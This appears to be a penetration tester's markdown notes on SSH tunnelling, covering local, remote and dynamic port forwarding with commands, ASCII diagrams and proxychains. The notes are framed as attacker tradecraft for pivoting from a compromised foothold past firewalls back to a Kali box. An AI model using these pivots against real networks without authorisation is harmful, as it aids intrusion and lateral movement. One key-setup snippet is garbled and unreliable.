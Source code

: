 # SSH Tunneling Or Port Forwarding


## SSH Tunneling & Local Port Forwarding

```bash
# From Attack box
# Local port forwarding
# ssh -N -L [bind_address:]$port:host:hostport [username@address]
ssh -L 127.0.0.1:8080:127.0.0.1:80 user@10.10.10.10 -p 2222
ssh -f -N -L $port:127.0.0.1:port user@ip -i id_rsa

# If you want to access a remote server using a private key.
-i id_rsa
# For local port 
-L local_port:remote_address:remote_portforwarding.
# For remote port forwarding.
-R port:local_address:local_port
# Dynamic port forwarding. Creates a socks proxy on localhost. 
-D local_PORT
# Do not execute a remote command, useful for just forwarding ports
-N 
# To background just before command execution
-f
```

If you do not want to break your ssh connection [konami from SANs](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) discusses using the key seqeunces ssh client:
-  `~.` - terminate connection (and any multiplexed sessions)
-  `~B` - send a BREAK to the remote system
-  `~C` - open a command line
-  `~R` - request rekey
-  `~V/v` - decrease/increase verbosity (LogLevel)
-  `~^Z` - suspend ssh
-  `~#` - list forwarded connections
-  `~&` - background ssh (when waiting for connections to terminate)
-  `~?` - this message
-  `~~` - send the escape character by typing it twice
-   (Note that escapes are only recognized immediately after newline.)

https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding
If you need ssh-keys
```bash
ssh-keygen
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 644 id_rsa.pub
```

If running through some shells like Meterpreter we need to have some host key acceptable, without using our Kali Password!
```bash
ssh -f -N -R $kali-port-for-ssh:$ssh-ip-connection:22 -R $kali-port-second-for-Service:$Network-IP:$Service-Port-To-Tunnel-To$ -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@$kali-IP 
```
For the keys and assured non-interactivity of ssh to tunnel correctly:
```bash
mkdir /tmp/key -p; cd keys
ssh-keygen 
#Enter location: /tmp/key/id_rsa
	from="$foothold-ssh-ip",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa $ssh-rsa=$(cat id_rsa) $foothold-user-base-reverse-shell@poornetwork
```
This entry will allow the foothold key owner of the private key to log in to Kali, without RCE-ing ourselves and allows for port forwarding.

Back to the trusty ascii art:
```goat
______	
[[  ]] ---------> {Internet}
/===/				  ^
Attacker			  |
				  	  |										 
		   _______[FIREWALL] 
		  |
______	  |	  ______					  			 ______
[[  ]]<------>[[  ]]-----Not routed to firewall----->[[  ]] 							
/===/		  /===/						 			 [[  ]]	
Client		 Client						  			Server										 
```

Local port forward with `ssh` to bypass firewall that is allowing inbound and outbound connection from specific ports, then using some service to tunnel traffic to the `Server`
```goat				
	________{_____SSH Tunnel_____}___
	^		  {                 }	|
	|			{		      }		|
______			 {		    }		|
[[  ]] ---------> {Internet}		|
/===/				  ^				|
Attacker			  |				|
				  	  |				|
		   _______[FIREWALL]		|
		  | 						|
		  |		____________________|
		  |		|	
		  |		|	
		  |		|   _______________Service Interaction_________
		  |		V  |										   |
______	  |	   ______					  			  ______   |
[[  ]]<------->[[  ]]-----Not routed to firewall----->[[  ]]<---						
/===/		   /===/						 		  [[  ]]	
Client		  Client						  		  Server										 
```

Check the service configuration file to be compatible with whatever servers, clients and network environments Attacker is operating for example SMB with Kali:
```bash
cat -n /etc/samba/smb.conf | grep "min protocol"
# edit
# And restart <insert service> service or with systemctl
sudo /etc/init.d/smbd restart
```

Then we can just connect from our localhost configured to route traffic throught the SSH tunnel:
```bash
smbclient -L 127.0.0.1 -U Administrator
```

## SSH Remote Port Forwarding

Reversal of Local port forwarding as port is **opened** from the remote side of the connection and the traffic is forwarded to a port back to local box with remote flag with `ssh -R`.

```bash
# Syntax: ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R $Attacker_IP:$Listening_port:$remotes_127-0-0-1:$port_forwarded_through attacker@$Attacker_IP
```

Ascii Art:
```goat
 	___________{Internet}_____REMOTE_PORT_FORWARDING_____________
   |				  ^											|
   |				  |											|
   |  		    	  |										  START
______				  |										 ______
[[  ]] ---------> [FIREWALL] <-----/NO ROUTE TO INTERNET-----[[  ]] 
/===/														 /===/
Attacker													 Client
```
Notice that the `START` point differs from the `START` for Local Port Forwarding

## SSH Dynamic Port Forwarding

Setting a local listiening port and have it tunnel incoming traffic to any remote destination through a proxy, see [[Proxies]] from more information on setting them up.

```bash
# Syntax
# ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
ssh -N -D 127.0.0.1:$port $user@$SSH_server_address
```

See [[Proxies]] for `proxychains` configuration.

```goat				
	________{_____SSH_Tunnel_______}_
	^		  {                  }	|
	|		   { 				}	|
	|			{				}	|
[SOCKS]		  	  {		      }		|
[PROXY]			{             }		|
______			 {		    }		|
[[  ]] ---------> {Internet}		|
/===/				  ^				|
Attacker			  |				|
				  	  |				|
		   _______[FIREWALL]		|
		  | 						|
  ________|_________________________|
 |		  |		|	|
 |		  |		|	|
 |		  |		|   ___________________________________________			
 |		  |		V  										   	   |
______	  |	   ______					  			  ______   |
[[  ]]<------->[[  ]]-----Not routed to firewall----->[[  ]]<---						
/===/		   /===/						 		  [[  ]]	
Client		  Client						  		  Server										 
```
With `proxychains` we can execute commands from the end point of the SSH tunnel.
```bash
sudo proxychains <whatever command>
```


## References

[Tunneling(Protocol) Wiki](https://en.wikipedia.org/wiki/Tunneling_protocol)
[Port forwarding Wiki](https://en.wikipedia.org/wiki/Port_forwarding)
[SSH has an academy](https://www.ssh.com/academy/ssh/protocol)
[iredteam](https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding)